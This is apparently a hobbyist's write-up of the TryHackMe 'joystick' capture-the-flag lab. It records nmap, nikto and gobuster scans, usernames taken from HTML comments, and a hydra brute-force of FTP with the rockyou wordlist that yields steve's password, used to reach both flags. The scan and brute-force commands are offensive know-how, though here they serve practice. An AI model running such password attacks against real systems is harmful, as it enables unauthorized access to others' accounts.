 # joystick CTF

IP = 10.10.142.101

## nmap
```
~/CTF/tryhackme/joystick$ nmap -sC -sV -A 10.10.142.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-06 09:21 BST
Nmap scan report for 10.10.142.101
Host is up (0.040s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.05 seconds

```
So we see that we have three ports open, 21, 22 and 80.

## nikto
```
~/CTF/tryhackme/joystick$ nikto  -h 10.10.142.101
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.142.101
+ Target Hostname:    10.10.142.101
+ Target Port:        80
+ Start Time:         2020-08-06 09:21:45 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 23c, size: 58814a0eea52b, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-08-06 09:29:03 (GMT1) (438 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Nothing really jumps out with this report.

## gobuster

```
~/CTF/tryhackme/joystick$ gobuster dir -u 10.10.142.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.142.101
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/06 10:23:44 Starting gobuster
===============================================================

```

Again not much of interest here.

## website enumeration

Pretty a blank webpage so lets check out the source.

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>JoyStick Gaming</title>
  </head>
  <body>
    <p>JoyStick gaming minecraft server, open shortly to the public!</p>
    <!-- Zach, I don't care that you named your user steve. You still need to
      finish making the website -->
    <!-- Great, and now the FTP server just doesn't work. Just another great idea after
	your failed irc chat. Why would we use that when we have in game chat? 
	Not to mention that I know you still haven't reset your password.  -->
  </body>
</html> 
```
Looks like we have possible usernames - steve and maybe zach. With Steve not changing his password it could be a simple easy to crack one. Lets try hydra for ftp first.

## hydra ftp
```
~/CTF/tryhackme/joystick$ hydra -l steve -P /usr/share/wordlists/rockyou.txt ftp://10.10.142.101
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-06 09:33:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.142.101:21/
[STATUS] 201.00 tries/min, 201 tries in 00:01h, 14344198 to do in 1189:25h, 16 active
[STATUS] 206.33 tries/min, 619 tries in 00:03h, 14343780 to do in 1158:38h, 16 active
[STATUS] 204.57 tries/min, 1432 tries in 00:07h, 14342967 to do in 1168:33h, 16 active
[STATUS] 221.15 tries/min, 3321 tries in 00:15h, 14341078 to do in 1080:47h, 16 active
[21][ftp] host: 10.10.142.101   login: steve   password: changeme
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-06 09:50:44

```
So after a cup of tea we have the username and password. Lets check out the FTP.

```
ftp 10.10.142.101
Connected to 10.10.142.101.
220 (vsFTPd 3.0.3)
Name (10.10.142.101:): steve
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Desktop
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Documents
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Downloads
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Music
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Pictures
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Public
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 SteveStuff
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Templates
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Videos
-rw-r--r--    1 ftp      ftp          8980 May 03  2019 examples.desktop
-rw-rw-r--    1 ftp      ftp        589485 May 03  2019 snes.png
-rw-r--r--    1 ftp      ftp            19 May 03  2019 user.txt
```
I also had a look at the actual home directory and find we have two other users.
```
tp> pwd
257 "/home/steve" is the current directory
ftp> cd ..
250 Directory successfully changed.
ftp> pwd
257 "/home" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 ftp      ftp          4096 May 04  2019 minecraft
drwxr-xr-x   18 ftp      ftp          4096 May 04  2019 notch
drwxr-xr-x   17 ftp      ftp          4096 May 04  2019 steve
226 Directory send OK.
ftp> 

```
Looking at Steve's home directory we can see the user.txt for the flag. 

I did try the anonymous access to the FTP but it errored.

```
~/CTF/tryhackme/joystick$ ftp 10.10.142.101
Connected to 10.10.142.101.
220 (vsFTPd 3.0.3)
Name (10.10.142.101:): anonymous
500 OOPS: vsftpd: refusing to run with writable root inside chroot()
```
I did some research on this and it appears that the ftp structure that we are trying to access is set to writeable.

I then thought that if the FTP has been set up incorrectly, that I may be able to fully access the file structure from the browser. This I was able to do but for the life of me I can't replicate it, though I was able to get the root flag as it was in the notch folder.

Checking with the username and password I also tried it on SSH and it worked.

My second completed - on my own!!

I must be getting better :)

Regards

K

![](/images/Karti.png)
